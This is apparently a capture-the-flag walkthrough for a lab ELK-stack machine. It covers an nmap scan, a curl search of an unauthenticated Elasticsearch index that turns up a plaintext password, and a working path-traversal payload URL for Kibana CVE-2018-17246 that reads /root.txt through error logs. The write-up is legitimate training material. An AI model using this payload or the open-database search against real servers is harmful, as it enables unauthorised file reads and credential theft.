

# [Day 24] Elf Stalk

## Instructions

McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash). 

The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?

While this task does not have supporting material, here is a general approach on how to go about this challenge:

* scan the machine to look for open ports(specific to services running as well)
* as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records
* for other open ports, identify misconfigurations or public exploits based on version numbers

The machine may take up to 5 minutes to boot.

## Nmap Scan

Let's start with a nmap scan:

~~~
$ sudo nmap -sS -p- -A 10.10.198.16

...[SNIP]...

PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind   2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     Date: Mon, 04 May 2020 19:44:01 GMT
|     Connection: close
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     cache-control: no-cache
|     content-type: text/html; charset=utf-8
|     content-length: 217
|     accept-ranges: bytes
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|     
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     Date: Mon, 04 May 2020 19:44:00 GMT
|     Connection: close
|_    {"statusCode":404,"error":"Not Found"}
8000/tcp open  http      SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http      Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
9300/tcp open  vrace?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|_    This is not an HTTP port

...[SNIP]...
~~~

A brief summary of the interesting services:
* **5601**: Kibana
* **8000**: Content of `kibana-log.txt`
* **9200**: ElasticSearch

## #1 - Find the password in the database

*Hint: how do you search for strings in an elasticsearch database*

Searching for the ElasticSearch RestAPI, I found [this link](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html) which explains how to request the ElasticSearch database.

Let's search for the string `password`:

~~~
$ curl -X GET "10.10.139.42:9200/_search?q=password&pretty"
{
  "took" : 680,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
        }
      }
    ]
  }
}
~~~

Answer: `9Qs58Ol3AXkMWLxiEyUyyf`

## #2 - Read the contents of the /root.txt file

*Hint: use the 3rd open port and a Kibana public vulnerability*

### Identify service and version

Driven by the hint, the 3rd open port is 5601, which appears to be Kibana.

~~~
$ curl -s http://10.10.139.42:5601

~~~

Connecting to http://10.10.139.42:5601 will open Kibana. From here, go to the Management console and you will see that the version is `6.4.2`:

### Find an exploit

At the time of this writing, the current version of Kibana is 7.6.2, which leaves hopes to find a working exploit. Googling the terms `kibana` and `6.4.2` quickly leads to a vulnerability referenced as CVE-2018-17246.

* https://www.cvedetails.com/vulnerability-list/vendor_id-13554/product_id-31867/version_id-317497/Elasticsearch-Kibana-6.4.2.html
* https://github.com/mpgn/CVE-2018-17246
* https://www.elastic.co/blog/kibana-local-file-inclusion-flaw-cve-2018-17246
* https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

### Exploit

The exploit involves a Local File Inclusion (LFI) to inject a reverse shell. As it seems there is nowhere on the site where we can upload files, we'll try to use the exploit to read the `root.txt` file directly. Let's connect with the following URL, which contains the payload:

http://10.10.139.42:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../.../../../../root.txt

The website becomes completely unresponsive. I tried to capture it with Burp Suite to see what happens but was not able to capture a response. Only the request seems to be sent.

### View logs

Now, as explained [here](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/), *"We began the test and observed that many inputs did not result in response until we reached timeout. This is abnormal, so we examined the logs."*. 

Now remember that we can access the logs over port 8000/tcp. Let's see what we collected:

~~~
$ curl -s http://10.10.139.42:8000/kibana-log.txt | grep "root.txt"
{"type":"error","@timestamp":"2020-05-05T11:39:43Z","tags":["warning","process"],"pid":2696,"level":"error","error":{"message":"ReferenceError: someELKfun is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n    at Module._compile (module.js:652:30)\n    at loader (/usr/share/kibana/node_modules/babel-register/lib/node.js:144:5)\n    at Object.require.extensions.(anonymous function) [as .js] (/usr/share/kibana/node_modules/babel-register/lib/node.js:154:
...[SNIP]...
~~~

The content of the `root.txt` file appears in the error message: `ReferenceError: someELKfun is not defined...`.

Answer: `someELKfun`.
